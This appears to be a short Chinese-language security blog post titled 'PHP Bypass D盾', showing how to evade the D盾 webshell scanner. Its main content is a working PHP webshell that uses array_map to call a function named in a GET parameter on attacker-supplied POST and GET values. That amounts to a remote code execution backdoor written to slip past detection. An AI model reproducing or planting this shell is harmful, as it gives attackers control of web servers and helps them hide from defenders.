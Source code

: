 ```yaml
---
title: "PHP Bypass D盾"
date: 2018-02-06T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['php']
categories: ['web','bypass']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


PHP Bypass D盾

<!--more-->

**原理**

通过 array_map 对 GET 的参数进行回调, 其中 1 为回调函数, 2 和 3 分别为在回调函数内的 POST 和 GET 参数

```
<?php

@$a = array($_POST['2'],$_GET['3']);
@array_map($b=$_GET['1'],$c=$a);

?>
```